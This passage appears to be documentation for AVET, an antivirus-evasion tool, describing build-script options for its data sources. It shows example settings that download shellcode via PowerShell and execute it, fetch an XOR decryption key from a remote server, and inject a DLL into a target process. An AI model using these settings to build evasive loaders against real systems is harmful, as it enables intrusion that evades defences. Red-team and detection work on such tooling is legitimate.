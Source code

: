 Features
--------

### Data retrieval methods
These methods are compatible with all of AVET's data sources and can be used as such in the build script.

A few examples:
```
# Compiles the command 'calc.exe' statically into the executable, which will then be executed via cmd at sample startup.
set_command_source static_from_here 'calc.exe'
set_command_exec exec_via_cmd

# Download 64-bit shellcode via powershell, and execute. 
set_payload_source download_powershell
set_payload_execution_method exec_shellcode64

# Download XOR decryption key into memory. (Server to download from is always specified via first command line argument on execution). Decode the payload.
set_key_source download_socket
set_decoder xor

# Retrieves the tuple (target PID, dll path) from command line on execution
set_payload_info_source from_command_line_raw
set_payload_execution_method inject_dll
```
If features are skipped/not used, you have to specify NOP-like behavior instead:
```
set_command_source no_data
set_command_exec no_command
```

##### static_from_file
The data is retrieved from a file and is statically compiled into the generated executable.
For this to work, the data must be provided as a c-style array at compilation time, like
```
unsigned char buf[] = "\x00\x11\x22\x33";
```

##### static_from_here
The data is statically compiled into the generated executable,
retrieved from the specified argument in the build script.

##### dynamic_from_file
The data is read from a file at run time.

##### from_command_line_hex
Retrieves data from a "11aabb22.." format hex string (from the command line).

##### from_command_line_raw
Retrieves data from a command line argument. The given ASCII string is interpreted as raw byte data.
